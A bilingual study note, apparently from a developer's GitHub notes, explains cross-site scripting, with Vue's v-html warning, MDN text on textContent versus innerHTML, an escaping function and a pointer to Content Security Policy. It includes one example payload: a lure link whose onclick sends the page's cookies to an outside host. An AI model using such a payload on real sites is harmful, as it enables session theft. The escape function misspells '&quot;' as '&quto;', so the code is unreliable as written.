 ## Cross-Site Scripting XSS

跨站脚本 (Cross-Site Scripting, XSS): 一种代码注入方式, 为了与 CSS 区分所以被称作 XSS. 

XSS 通过修改 HTML 节点或者执行 JS 代码来攻击网站。

所以不能讲拿到的string直接作为html插入

> Vue v-html
>
> <p>Using mustaches: {{ rawHtml }}</p> <p>Using v-html directive: <span v-html="rawHtml"></span></p>
>
> 你的站点上动态渲染的任意 HTML 可能会非常危险，因为它很容易导致 [XSS 攻击](https://en.wikipedia.org/wiki/Cross-site_scripting)。请只对可信内容使用 HTML 插值，**绝不要**对用户提供的内容使用插值。



关于一些浏览器API

### [textContent Differences from innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Node/textContent#differences_from_innerhtml)

[`Element.innerHTML`](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML) returns HTML, as its name indicates. Sometimes people use `innerHTML` to retrieve or write text inside an element, but `textContent` has better performance because its value is not parsed as HTML.

Moreover, using `textContent` can prevent [XSS attacks](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting).

Don't get confused by the differences between `Node.textContent` and [`HTMLElement.innerText`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/innerText). Although the names seem similar, there are important differences:

- `textContent` gets the content of *all* elements, including [``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/script) and [``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/style) elements. In contrast, `innerText` only shows “human-readable” elements.
- `textContent`returns every element in the node. In contrast,`innerText`is aware of styling and won’t return the text of “hidden” elements.
  - Moreover, since `innerText` takes CSS styles into account, reading the value of `innerText` triggers a [reflow](https://developer.mozilla.org/en-US/docs/Glossary/Reflow) to ensure up-to-date computed styles. (Reflows can be computationally expensive, and thus should be avoided when possible.)



例子🌰

```html
<a href="#" onclick=`window.location=http://abc.comcookie=${docuemnt.cookie}`>领取红包</a>
```



## 如何防御？

转义输入输出的内容，对于引号，尖括号，斜杠进行转义

```js
function escape(str) {
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  str = str.replace(/`/g, '&#96;')
  str = str.replace(/\//g, '&#x2F;')
  return str
}
```

富文本考虑白名单转义



还有个方案是[CSP](https://content-security-policy.com/) Content Security Policy

The Content-Security-Policy header allows you to restrict how resources such as JavaScript, CSS, or pretty much anything that the browser loads.

